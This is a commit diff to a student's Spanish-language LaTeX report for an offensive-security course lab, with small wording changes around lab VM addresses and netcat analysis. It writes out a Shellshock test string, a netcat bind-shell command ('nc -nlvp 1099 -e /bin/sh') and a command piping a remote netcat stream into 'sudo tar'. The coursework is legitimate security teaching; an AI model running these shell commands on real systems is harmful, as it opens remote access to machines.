

Before and after one commit to IkerCanut/Cybersecurity, a LaTeX document (Seguridad Ofensiva - FAMAF/Practico 0/src/Canut-Practico0.tex): two parts of page 2 of 2, joined at a grey line, cut so that both start at the same text. Compiled offline with pdfLaTeX.

Commit message:
P0 correccion

```diff
--- a/Seguridad Ofensiva - FAMAF/Practico 0/src/Canut-Practico0.tex
+++ b/Seguridad Ofensiva - FAMAF/Practico 0/src/Canut-Practico0.tex
@@ -18,8 +18,8 @@
 
 \begin{enumerate}
 
-\item La direcci\'on IP de la m\'aquina virtual Kali es 192.168.1.155 (Bridged).
-\item La direcci\'on IP de la m\'aquina virtual OWASP es 192.168.1.133 (Bridged).\\
+\item La direcci\'on IP de la m\'aquina virtual Kali en este caso es 192.168.1.155 (Bridged).
+\item La direcci\'on IP de la m\'aquina virtual OWASP en este caso es 192.168.1.133 (Bridged).\\
 Tras ejecutar \textbf{env x='() \{ :;\}; echo vulnerable' bash -c "echo test"} vemos que es vulnerable a Shellshock.
 \item Luego de ejecutar todas las instrucciones mostradas, se procede a modificar el c\'odigo para poder asi, con ayuda de netcat, conseguir una reverse shell.
 \begin{center}
@@ -45,9 +45,9 @@ Como mitigar la vulnerabilidad? & Se podria considerar la posibilidad de instala
 \end{center}
 \end{table}
 
-\item El diccionario con los aliases se llama ekoparty.txt. Adem\'as, se agregan los nombres completos de las personas.
+\item El diccionario con los aliases se llama ekoparty.txt. Adem\'as, se agregan los nombres completos de las personas en un archivo aparte.
 
-\item Para analizar el comando \textbf{nc 143.0.100.198 1099 $|$ sudo tar -xf -} comenzaremos con la parte de netcat, es decir, nc. Esto se usa generalmente para crear una bind shell, donde el atacante se conecta a la victima con IP 143.0.100.198 al puerto 1099. En la victima se deberia ejecutar \textit{nc -nlvp 1099 -e /bin/sh}. Luego, la salida de este comando se redirecciona al comando tar, el cual con los parametos xf extrae un archivo -.
+\item Para analizar el comando \textbf{nc 143.0.100.198 1099 $|$ sudo tar -xf -} comenzaremos con la parte de netcat, es decir, nc. Esto se usa generalmente para crear una bind shell, donde el atacante se conecta a la victima con IP 143.0.100.198 al puerto 1099. En la victima se deberia ejecutar \textit{nc -nlvp 1099 -e /bin/sh}. Luego, la salida de este comando se redirecciona al comando tar, el cual con los parametos xf extrae un archivo ????
 
 
 \end{enumerate}
```
Also changed, not shown: Seguridad Ofensiva - FAMAF/Practico 0/Canut-Practico0.pdf.
